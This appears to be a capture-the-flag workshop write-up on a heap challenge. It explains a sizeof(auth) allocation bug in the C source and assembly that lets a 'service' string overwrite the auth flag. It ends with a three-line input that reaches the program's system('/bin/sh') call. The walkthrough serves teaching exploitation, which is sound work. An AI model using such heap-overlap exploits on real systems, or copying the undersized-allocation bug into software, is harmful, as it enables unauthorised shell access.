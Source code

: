So the first thing we notice is a struct. We will come back to this later

```
struct auth { //note the lack of typedef
  char name[32];
  int auth;
};

struct auth *auth; // naming the struct pointer the same as the struct its self
char *service;
```




Let's look at the auth function
```    
if(strncmp(line, "auth ", 5) == 0)
{
    auth = malloc(sizeof(auth)); // should be sizeof(struct auth)
    memset(auth, 0, sizeof(auth));

    if(strlen(line + 5) < 31)
        strcpy(auth->name, line + 5);
}
```

and the corresponding assembly

```
auth = malloc(sizeof(auth)); // should be sizeof(struct auth)
```

```
804866e:	83 ec 0c             	sub    esp,0xc
8048671:	6a 04                	push   0x4 ; only 0x4 bytes!!
8048673:	e8 08 fe ff ff       	call   8048480 <malloc@plt>
8048678:	83 c4 10             	add    esp,0x10
804867b:	a3 e8 9a 04 08       	mov    ds:0x8049ae8,eax
```
This is the main bug in this program. Because the dev wrote `sizeof(auth)` and not `sizeof(struct auth)`, there will be `0x4` bytes of memory (the size of `*auth`) allocated and not `0x24` (the size of `struct auth`).




Lets see what happens with the service case.
```
if(strncmp(line, "service", 6) == 0)
    service = strdup(line + 7); //this will stored on the heap
```
Notice that we do not have any restrictions on the amount of memory allocated.


Let's take a look at the login command

```    
if(strncmp(line, "login", 5) == 0)
{
  if(auth->auth)
  {
      printf("Welcome Adnim!\n");
      system("/bin/sh");
  } else
      printf("please enter your password\n");
}
```  

the most important line

```
if(auth->auth)
```

```
8048751:	a1 e8 9a 04 08       	mov    eax,ds:0x8049ae8
8048756:	8b 40 20             	mov    eax,DWORD PTR [eax+0x20] ;0x20 offset
8048759:	85 c0                	test   eax,eax
804875b:	74 25                	je     8048782 <main+0x187>
```


![A basic visualization](https://github.com/kablaa/CTF-Workshop/blob/master/writeups/heap2/heap.png)

So what is happening is this: Because only 0x4 bytes are being allocated on the heap, and because `auth->auth` is at `<location of auth> + 0x20`, `service` is now located _before_ `auth->auth`. So we can overwrite the value.

so we can run
```
auth lessthan32bits
service aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
login
```

This is why we should be careful with how we name our variables kids!
